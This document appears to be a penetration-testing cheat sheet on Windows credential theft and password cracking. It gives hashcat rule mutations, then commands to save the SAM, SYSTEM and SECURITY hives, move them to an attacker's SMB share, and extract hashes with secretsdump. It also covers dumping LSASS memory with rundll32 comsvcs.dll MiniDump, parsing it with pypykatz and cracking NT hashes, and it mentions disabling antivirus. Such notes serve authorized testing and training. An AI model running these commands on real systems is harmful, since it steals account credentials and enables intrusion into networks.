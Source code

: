 #  Password Mutations
## Enumeration
 * [pypykatz](https://github.com/skelsec/pypykatz) - Mimikatz implementation in pure Python.

### Hashcat Rule File

```
cat password.list
password

Function Description
: 	Do nothing.
l 	Lowercase all letters.
u 	Uppercase all letters.
c 	Capitalize the first letter and lowercase others.
sXY 	Replace all instances of X with Y.
$! 	Add the exclamation character at the end.

cat custom.rule

:
c
so0
c so0
sa@
c sa@
c sa@ so0
$!
$! c
$! so0
$! sa@
$! c so0
$! c sa@
$! so0 sa@
$! c so0 sa@
```

### Generating Rule-based Wordlist
```
hashcat --force $input -r custom.rule --stdout | sort -u > $output
hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.list # example

cat mut_password.list

password
Password
passw0rd
Passw0rd
p@ssword
P@ssword
P@ssw0rd
password!
Password!
passw0rd!
p@ssword!
Passw0rd!
P@ssword!
p@ssw0rd!
P@ssw0rd!
```

### Hashcat Existing Rules
```
ls /usr/share/hashcat/rules/
```
### [Default Credentials CheatSheet](https://github.com/ihebski/DefaultCreds-cheat-sheet)
### Attacking SAM

**hklm\sam**	Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext.
**hklm\system** 	Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.
**hklm\security** 	Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.

```
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save
C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save
C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save
```

### Creating a Share with smbserver.py

```
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData $some_folder
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData $HOME/ # Example
```

Once we have the share running on our attack host, we can use the move command on the Windows target to move the hive copies to the share.
```
move sam.save \\$lhost\CompData
move security.save \\$lhost\CompData
move system.save \\$lhost\CompData
# lhost is the smbserver we created
```

### Locating secretsdump.py

```
locate secretsdump
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam $HOME/sam.save -security $HOME/security.save -system $HOME/system.save LOCAL
```

## Attacking LSASS 
### Dumping LSASS Process Memory
```
Open Task Manager > Select the Processes tab > Find & right click the Local Security Authority Process > Select Create dump file
```

A file called lsass.DMP is created and saved in:

```
C:\Users\loggedonusersdirectory\AppData\Local\Temp
```

### Rundll32.exe & Comsvcs.dll Method

Before issuing the command to create the dump file, we must determine what process ID (PID) is assigned to lsass.exe. This can be done from cmd or PowerShell:

### Finding LSASS PID in cmd
From cmd, we can issue the command tasklist /svc and find lsass.exe and its process ID in the PID field.
```
tasklist /svc
```
### Finding LSASS PID in PowerShell

From PowerShell, we can issue the command Get-Process lsass and see the process ID in the Id field.
```
Get-Process lsass
```

### Creating lsass.dmp using PowerShell
With an elevated PowerShell session, we can issue the following command to create the dump file:
```
rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```

With this command, we are running rundll32.exe to call an exported function of comsvcs.dll which also calls the MiniDumpWriteDump (MiniDump) function to dump the LSASS process memory to a specified directory (C:\lsass.dmp). Recall that most modern AV tools recognize this as malicious and prevent the command from executing. In these cases, we will need to consider ways to bypass or disable the AV tool we are facing. AV bypassing techniques are outside of the scope of this module.

If we manage to run this command and generate the lsass.dmp file, we can proceed to transfer the file onto our attack box to attempt to extract any credentials that may have been stored in LSASS process memory.


### Running Pypykatz
```
 pypykatz lsa minidump $HOME/lsass.dmp 
```
## Cracking the NT Hash with Hashcat

```
sudo hashcat -m 1000 $hash $wordlist
sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt # Example
```

